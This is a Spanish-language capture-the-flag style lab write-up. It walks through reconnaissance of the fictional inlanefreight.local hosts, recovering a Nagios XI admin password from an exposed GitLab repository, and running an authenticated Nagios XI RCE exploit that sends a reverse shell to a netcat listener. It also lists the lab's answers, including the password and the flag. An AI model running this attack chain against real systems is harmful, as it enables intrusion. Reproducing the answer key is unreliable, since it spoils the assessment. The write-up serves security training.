





# Laboratorio: Skill Assessment II 🐱

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---

2. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

---

3. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

---

4. Como tenemos el **subdominio** `gitlab.inlanefreight.local` podemos intuir que el dominio principal es **`inlanefreight.local`**, así que también lo añadiremos al archivo **`/etc/hosts`**.

* **`/etc/hosts`**
```
<SNIP>
[IP]   gitlab.inlanefreight.local inlanefreight.local
<SNIP>
```
---
5. Ahora hacemos **`fuzzing de subdominios`** con `wfuzz`
* `wfuzz -c -t 100 --hc=404 --hh=46166 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -H "Host: FUZZ.inlanefreight.local" http://inlanefreight.local/`

**Output**
```
000000018:   200        1014 L   2296 W     50115 Ch    "blog"
```

* Añadimos el subdominio recién descubierto al archivo **`/etc/hosts`**
* Este **subdominio** es el que alberga a **`Wordpress`** 

**Respuesta 1:** `http://blog.inlanefreight.local`

---

6. Ahora, vamos a subdominio de `gitlab` y ver si existen algunos repositorios expuestos
* **URL:** `http://gitlab.inlanefreight.local:8180/explore`

<p align="center">
    
</p>

**Respuesta 2:** `Virtualhost`

---

7. En el **README.md** de este **repositorio** vemos el nombre de otro subdominio

<p align="center">
    
</p>

**Respuesta 3:** `monitoring.inlanefreight.local`

---

8. Si visitamos el tercer subdominio veremos que se ejecuta la siguiente aplicación

<p align="center">
    
</p>

**Respuesta 4:** `Nagios`

---

9. Después de explorar todos los dominios no llegamos a encontrar credenciales válidas para el panel de **`Nagios XI`**, sin embargo, tengamos en cuenta **`GitLab`**, aquí nosotros podemos crear una cuenta con el dominio `[Username]@inlanefreight.local` y en el mejor de los casos ver repositorios que antes no podíamos.

* Primero crearemos una cuenta en **GitLab**
    * **URL:** `http://gitlab.inlanefreight.local:8180/users/sign_up`
  
<p align="center">
    
</p>

* Ahora accedemos y nos vamos a la sección de `Members -> Administrator`

<p align="center">
    
</p>

* Nos fijamos que vemos un **repositorio más** y si vemos el archivo **`INSTALL`** veremos credenciales válidas en **`Nagios XI`**

* **INSTALL**
```sql
<SNIP>
postgres=# CREATE USER nagiosadmin WITH PASSWORD 'oilaKglm7M09@CPL&^lC';
<SNIP>
```

**Respuesta 5:** `oilaKglm7M09@CPL&^lC`

---

10. Ahora podemos ver la versión de **`Nagios XI`**

<p align="center">
    
</p>

---

11. Al buscar vulenrabilidades asociadas a esa versión de **Nagios XI** vemos el siguiente exploit
```
Nagios XI 5.7.X - Remote Code Execution RCE (Authenticated)        |     php/webapps/49422.py
```
---
12. Nos ponemos en escucha con **nc** previamente: **`nc -lvnp [Port]`**

---

13. Ejecutamos el **exploit**
* `python3 nagios_rce.py http://monitoring.inlanefreight.local nagiosadmin 'oilaKglm7M09@CPL&^lC' [IP tun0] [Port]`

---

14. Ahora ya tenemos un **shell** y leemos la flag (Está en el directorio actual)

```
www-data@skills2:/usr/local/nagiosxi/html/admin$ cat f5088a862528cbb16b4e253f1809882c_flag.txt
afe377683dce373ec2bf7eaf1e0107eb
```

**Respuesta 5:** `afe377683dce373ec2bf7eaf1e0107eb`